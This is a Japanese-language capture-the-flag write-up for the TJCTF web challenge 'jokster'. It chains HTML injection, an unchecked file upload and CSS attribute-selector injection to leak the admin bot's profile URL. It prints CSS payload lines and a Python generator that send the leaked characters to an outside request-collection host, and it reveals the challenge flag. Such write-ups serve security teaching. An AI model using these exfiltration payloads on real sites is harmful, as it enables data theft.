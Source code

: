 # jokster:web:441pts
I love jokes. So much, even, that I could no longer think of my own. Because of that, I made this so I could yours!!!  
[jokster.tjc.tf](https://jokster.tjc.tf/)  
[Admin Bot](https://admin-bot.tjctf.org/jokster)  

Downloads  
[admin-bot.js](admin-bot.js)　[server.zip](server.zip)  

# Solution
サイト、Admin Bot、ソースが渡される。  
アクセスすると、ジョークを投稿するサイトのようだ。  
jokster  
[site.png](site/site.png)  
登録し、ログインするとプロフィールページ(https://jokster.tjc.tf/profile/jcyrvkir)が作られた。  
Profile  
[profile.png](site/profile.png)  
`Edit Profile`ではUsername、Password、画像が変更できる。  
Admin Botがあるため、XSSを狙ってタグを含むジョークを送信する。  
`</title><s>atoki`で無事にsタグを挿入できた(Joke部分のみのようだ)。  
![htmli.png](site/htmli.png)  
ここでCSPをチェックすると以下のようであった。  
```
script-src 'none';
img-src * data:;
style-src 'self' fonts.googleapis.com;
default-src 'self';
base-uri 'self';
block-all-mixed-content;
font-src 'self' https: data:;
form-action 'self';
frame-ancestors 'self';
object-src 'none';
script-src-attr 'none';
upgrade-insecure-requests
```
scriptは実行できないようだ。  
通常のcookie取得でないことが分かったため、flagの場所とAdmin Botの挙動を確認する。  
flagはindex.jsの中より、`admin`の`punchline`にあるようだ。  
Admin Botは以下のようにログインを行い、その後に送信された同一オリジンのサイトをクロールする。  
```js
~~~
        await page.goto('https://jokster.tjc.tf/login', { waitUntil: 'domcontentloaded' });

        await sleep(1000);

        const usernameInput = await page.$('#username');
        await usernameInput.type('admin');

        const passwordInput = await page.$('#password');
        await passwordInput.type(adminPassword.trim());

        const submitButton = await page.$('input[type="submit"]');
        await submitButton.click();

        await sleep(500);

        await page.goto(url, { timeout: 3000, waitUntil: 'domcontentloaded' });
~~~
```
adminのJokeを閲覧することを目指す。  
Jokeは他者のものをログインなしで閲覧できるが、URLはランダム(8桁)である。  
また、プロフィールにジョークの一覧が表示されるが、プロフィールページのURLもランダムである。  
壊れたimgタグを挿入して情報をリークできないかと考え、投稿したJokeのソースを眺めていると以下のタグが目に留まった。  
```html
~~~
        <span class="nav-right">
            <a href="/profile/jcyrvkir" class="nav-link">
                Satoki
            </a>
            <a href="/logout" class="nav-link">Logout</a>
        </span>
~~~
```
閲覧者のプロフィールアドレスがレンダリングされている(ログアウトすると無くなる)。  
Admin Botであればここはadminのプロフィールアドレスである。  
これをCSSiにて取り出せばよいと気付く。  
CSPに立ち返ると、CSSは`style-src 'self' fonts.googleapis.com;`であるので、cssファイルを同一オリジンに設置できればよい。  
投稿機能やファイルアップロード機能を調べていると、プロフィール画像の変更にてファイルの種類や拡張子のチェックを行っていないことがわかる(ちなみにファイル名はランダムであり、拡張子部分でもHTMLタグを挿入できるがあまり意味はない)。  
以下のようなCSSをアップロードし、Jokeページで読み込むと、閲覧者のプロフィールアドレスの一文字目がリークできる。  
リクエスト受信は[RequestBin.com](https://requestbin.com/)を用いた。  
```css
a[href^='/profile/a'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?a');}
a[href^='/profile/b'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?b');}
a[href^='/profile/c'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?c');}
a[href^='/profile/d'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?d');}
~~~
```
Jokeページではアップロードに成功したCSSファイルを`</title><link rel="stylesheet" href="https://jokster.tjc.tf/uploads/xxxxxxxx.css">`と読み込んでやる。  
これで生成されたJokeページをAdmin Botに送信してやると、adminのプロフィールアドレスの一文字目が取得できる。  
これを八文字分繰り返せばよいが、面倒なので以下のcss_gen.pyで二文字ずつリークするcssを作成した。  
```python
url = "https://xxxxxxxxxxxxx.x.pipedream.net"
admin_id = ""

with open("example.css", mode="w") as f:
    for i in "abcdefghijklmnopqrstuvwxyz0123456789-_":
        for j in "abcdefghijklmnopqrstuvwxyz0123456789-_":
            f.write(f"a[href^='/profile/{admin_id}{i}{j}'] {{background-image: url('{url}/?{admin_id}{i}{j}');}}\n")
```
これをアップロードした後、それを読み込むJokeをAdmin Botに踏ませる作業を繰り返すと以下のようなリクエストが届く。  
```
/?x3
/?x3fw
/?x3fwr0
/?x3fwr0nt
```
これにより、adminのプロフィールアドレスが`https://jokster.tjc.tf/profile/x3fwr0nt`とわかった。  
![flag.png](site/flag.png)  
アクセスするとflagが書かれていた。  

## tjctf{but_i_tHink_im_f1na1lY_cl34N_9b9c0ad1}